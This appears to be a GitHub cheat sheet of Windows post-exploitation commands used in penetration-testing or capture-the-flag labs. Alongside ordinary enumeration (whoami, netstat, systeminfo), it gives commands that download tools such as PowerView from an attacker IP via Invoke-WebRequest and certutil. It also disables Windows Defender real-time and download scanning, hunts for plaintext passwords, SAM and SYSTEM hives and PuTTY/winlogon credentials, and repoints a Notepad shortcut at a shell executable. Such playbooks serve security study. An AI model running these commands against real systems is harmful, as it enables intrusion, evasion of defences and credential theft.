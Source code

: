Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1

curl -o example.txt http://example.com/file.txt

certutil.exe -urlcache -split -f http://<ip>/file file_save

timedatectl set-ntp 0

ntpdate $IP

dir /R

# Alternate Data Streams are commonly used for storing hidden data or metadata
Get-Content "C:\Users\Administrator\Desktop\hm.txt:root.txt"
more < hm.txt:root.txt:$DATA
```

Get Processes
```powershell
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

List Network Connections
```powershell
netstat -aon

arp -a

ipconfig /all

route print
```

Connect to a machine with admin perms
```
Enter-PSSession -Computername <computername>
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```

### Quick Loot?
```
findstr /si password *.txt *.ini *.config
```
### Who Am I?
```powershell
whoami
echo %username%

# Check Groups
whoami /groups

# Check Privileges
whoami /priv

whoami /all
```

### Where Am I?
```powershell
hostname
echo %hostname%
```
### Anyone home?
Local users
```powershell
net user s

Get-ADUser <username> -Properties MemberOf
```

Domain users
```powershell
net users /domain
```
### What am I part of?
Local groups
```powershell
net groups
```

Domain groups
```powershell
net groups /domain
```
### What is this place?
```powershell
systeminfo

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

wmic qfe
```
### Is it fancy?
Both should be the same for ease of exploitation, if either is 32-bit then try to gain a 64-bit shell.  
Use PowerShell
```powershell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess
```
### Am I tied up?
Check LanguageMode. FullLanguage is nicer to have.  
```powershell
$ExecutionContext.SessionState.LanguageMode
```
### Anything reachable?
```powershell
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandedProperty RuleCollections

wmic logicaldisk get caption
```
### What does the inside look like?
Look for interesting services
```powershell
netstat -aon
```
### Leave me alone
Do you have admin privs?  

Disable Windows Defender real time monitoring
```powershell
Get-MpComputerStatus

# List excluded directories
Get-MpPreference | Select-Object -ExpandProperty ExclusionPath

Set-MpPreference -DisableRealTimeMonitoring $true	
```

Disable Windows Defender scanning for all files downloaded
```powershell
Set-MpPreference -DisableIOAVProtection $true	
```

### Sniff for Credentials
Common creds location, always in plaintext
```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

Look for interesting files that may contain creds
```powershell
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml
```

### Look Around
```powershell
#Starting, Restarting and Stopping services in Powershell
Start-Service <service>
Stop-Service <service>
Restart-Service <service>

#Powershell History
Get-History
(Get-PSReadlineOption).HistorySavePath #displays the path of consoleHost_history.txt
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Viewing installed execuatbles
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Process Information
Get-Process
Get-Process | Select ProcessName,Path

#Sensitive info in XAMPP Directory
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue #this for a specific user

#Service Information
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```